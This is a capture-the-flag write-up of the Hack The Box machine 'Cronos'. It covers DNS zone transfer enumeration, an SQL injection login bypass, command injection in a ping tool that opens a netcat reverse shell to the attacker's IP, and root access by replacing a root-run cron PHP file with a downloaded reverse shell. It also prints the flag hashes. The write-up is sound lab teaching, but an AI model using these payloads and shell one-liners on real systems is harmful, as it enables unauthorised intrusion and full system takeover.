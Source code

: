 ```yaml
---
title: Cronos
author: fieldraccoon
date: 2020-06-27 
categories: [hack-the-box, linux]
tags: [hack-the-box, medium, dns, sql]
math: true
---
```


# Cronos

Cronos was a medium linux box that required gaining access to a code execution site through dns searching and sql injection. This was then used to gain a shell on the system and read the user flag. Root required some enumeration to find the `/etc/crontab` file which we can abuse to gain a root shell with php.

> Skills involved in this box:

- enumeration
- privilege escalation
- dns searching using dig
- SQL 

# USER

As always we start off with an nmap scan:
```bash
kali@kali:~/boxes/cronos$ nmap -sC -sV -o nmap 10.10.10.13
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-27 04:51 EDT
Nmap scan report for 10.10.10.13
Host is up (0.036s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.08 seconds
```

The scan shows port 22 open on ssh even though it is not needed for this box. Port 80 fo http and port 53 open on tcp which we can use to try ad find subdomains for the host later.

We visit the page at http and find a default apache page. We quickly add `cronos.htb` to our hosts and refresh the page. We now get a normal website which doesnt seem too interesting.

We run directory brute-force tools such as gobuster but we dont find anything.

Instead we use `dig` to try and find any subdomains on `cronos.htb`:
```bash
kali@kali:~/boxes/cronos$ dig axfr @10.10.10.13 cronos.htb

; <<>> DiG 9.16.3-Debian <<>> axfr @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 20 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Sat Jun 27 04:55:32 EDT 2020
;; XFR size: 7 records (messages 1, bytes 203)
```
We Add all of theese to our hosts file which now looks like this: `10.10.10.13    cronos.htb www.cronos.htb ns1.cronos.htb admin.cronos.htb`

Navigating to `admin.cronos.htb` we find a login page, We try and guess common passwords but none of which work.

We then try to use SQL Injection to try and bypass the login page and it worked.

We used the username: `admin' OR 1=1 -- -` and we left the password field blank and we manage to login succesfully.

Now it shows us the title `Net Tool v0.1` and we can execute commands via the execute section where it allows us to ping an ip address.

It lets us ping an ip so we try to ping our own to see if we get a connection and it works.

we intercept the request with burpe to see whats going on.

`command=ping+-c+1&host=10.10.xx.xx`  - this is basically what it shows when executing the command, we can try edit this command to get code execution with anything such as `whoami` or `id`.

We then drop the request and go back to the page and see if we can get a reverse shell.

`10.10.xx.xx; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1234 >/tmp/f`

We enter this into the command bar and setup a listener and we get a shell.

From here we can then go on to read the user flag.
```bash
kali@kali:~/boxes/cronos$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.13] 51974
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@cronos:/var/www/admin$ cd /home
cd /home
www-data@cronos:/home$ ls
ls
noulis
www-data@cronos:/home$ cd noulis
cd noulis
www-data@cronos:/home/noulis$ ls
ls
user.txt
www-data@cronos:/home/noulis$ cat user.txt
cat user.txt
51d236438b333970dbba7dc3089be33b
```
# ROOT

By running linenum.sh on the system we find an interesting file on it called `/etc/crontab`.

```bash
ww-data@cronos:/home/noulis$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

We can see that this file is being ran as root, lets see if we can exploit it.

We see that it is running `/var/www/laravel/artisan` as root with php meaning its a php file. Lets try and add a reverse shell to the file and see if it executes it.

```bash
kali@kali:~$ python -m SimpleHTTPServer 8081
Serving HTTP on 0.0.0.0 port 8081 ...
10.10.10.13 - - [27/Jun/2020 05:12:20] "GET /php-reverse-shell.php HTTP/1.1" 200 -
```
We setup a python server to host our rev-shell file(which is edited to include our ip and port)
```bash
www-data@cronos:/tmp$ wget 10.10.14.7:8081/php-reverse-shell.php
wget 10.10.14.7:8081/php-reverse-shell.php
--2020-06-27 12:15:48--  http://10.10.14.7:8081/php-reverse-shell.php
Connecting to 10.10.14.7:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5492 (5.4K) [application/octet-stream]
Saving to: 'php-reverse-shell.php'

php-reverse-shell.p 100%[===================>]   5.36K  --.-KB/s    in 0.003s  

2020-06-27 12:15:48 (1.63 MB/s) - 'php-reverse-shell.php' saved [5492/5492]

www-data@cronos:/tmp$

www-data@cronos:/var/www/laravel$ cp /tmp/php-reverse-shell.php artisan
cp /tmp/php-reverse-shell.php artisan
```
Now we just set up a listener on the specified port that we added in our shell file and wait for a connection.

```bash
kali@kali:~$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.13] 46434
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 12:18:01 up 24 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# cat /root/root.txt
1703b8a3c9a8dde879942c79d02fd3a0
```
Thanks for reading hope you enjoyed.

